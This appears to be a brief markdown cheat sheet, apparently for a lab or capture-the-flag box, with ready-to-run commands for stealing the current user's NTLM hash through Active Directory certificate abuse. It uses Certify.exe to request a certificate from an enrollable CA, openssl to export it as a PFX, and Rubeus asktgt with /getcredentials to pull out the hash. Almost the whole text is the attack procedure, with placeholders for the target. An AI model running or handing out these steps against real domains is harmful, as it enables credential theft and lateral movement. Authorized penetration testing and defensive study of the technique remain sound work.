 # This Attack Provide the NLTM hash of the Current User
We have to transfer the few exe and Grap the NTLM Hash.
# Step By Step 
```langauge
1. Transfer the certify.exe and Run it
2. Make a pem file and export to pfx, than transfer it
3. Transfer the pfx and Run the Rubeus.exe
```
# 1. Run the Certify.exe 
```language
#Grap the ca Name from the ouput 
.\Certify.exe find /enrollable
#Put the ca Name and Hostname of the Box 
.\Certify.exe request /ca:<hostname>\<ca_name> /template:User
```
# 2. Save the key and Certificate  with .pem file
```language
nano user_name.pem

openssl pkcs12 -in user_name.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
# 3. Transfer the cert.pfx and Rebues in Box
# 4. Extract the NTLM hash
```language
.\rubeus.exe asktgt /user:<current_user_name> /certificate:C:\xampp\htdocs\files\cert.pfx /getcredentials /show /nowrap
```
